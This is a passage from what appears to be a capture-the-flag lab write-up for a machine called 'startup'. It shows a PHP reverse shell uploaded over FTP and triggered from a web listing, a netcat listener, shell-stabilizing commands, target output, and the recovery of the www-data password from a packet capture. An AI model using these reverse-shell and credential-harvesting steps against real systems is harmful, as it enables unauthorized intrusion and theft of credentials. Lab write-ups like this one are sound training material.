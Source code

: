 >>After uploading the reverse shell through ftp go to url below and click it down before that create a netcat session.
>>URL:http://10.10.157.159/files/ftp

```
Index of /files/ftp
[ICO]   Name    Last modified   Size    Description
[PARENTDIR] Parent Directory        -    
[ ] php-reverse-shell.php   2022-01-07 13:56    5.4K     
```
```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@startup:/home$ ^Z
[1]+  Stopped                 nc -lvnp 7007
root@ip-10-10-116-6:~# stty raw -echo
root@ip-10-10-116-6:~# nc -lvnp 7007

www-data@startup:/home$ export TERM=xterm
www-data@startup:/$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

>>There is a pcappng file in the incidents file in the '/' directory go ahead and copy it to '/var/www/html/ftp' and go to url's ftp and open it with wireshark.
>>In that .pcappng file the point is in the 57 position were can find the password for www-data.  
```
57  11.543220716    192.168.22.139  192.168.22.139  TCP 249 40934 ? 4444 [PSH, ACK] Seq=418 Ack=4 Win=65536 Len=181 TSval=720586187 TSecr=720586181
```
```bash
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:40:21 up 20 min,  1 user,  load average: 0.00, 0.03, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
vagrant  pts/0    10.0.2.2         17:21    1:09   0.54s  0.54s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
data
dev
etc
home
incidents
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
recipe.txt
root
run
sbin
snap
srv
sys
tmp
usr
vagrant
var
```